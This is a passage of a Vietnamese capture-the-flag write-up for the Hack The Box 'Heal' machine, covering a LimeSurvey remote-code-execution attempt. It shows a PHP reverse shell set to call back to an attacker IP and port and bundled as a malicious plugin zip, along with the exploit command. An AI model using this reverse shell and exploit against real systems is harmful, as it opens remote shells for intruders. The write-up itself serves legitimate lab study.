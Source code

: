 Thay đổi reverse shell thành IP của máy kali và port muốn lắng nghe

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ nano php-rev.php
```

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.11';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Zip lại file file `php-rev.php` đã sửa đổi và `config.xml`

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ rm -r Y1LD1R1M.zip

┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ zip Y1LD1R1M.zip config.xml php-rev.php
  adding: config.xml (deflated 56%)
  adding: php-rev.php (deflated 61%)
```

Chạy exploit với port 9001

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ python3 exploit.py http://take-survey.heal.htb admin password 9001
```

Không có kết quả. Có vẻ như username và password mặc định không có kết quả. Tôi sẽ quay trở lại `heal.htb` vì còn 1 số phần chưa khai thác hết.

Tôi sẽ thử điền thông tin và export as pdf.

Bật Burpsuite để bắt request

![seven](/assets/img/2025-01-07-HTB-Heal/7.webp)
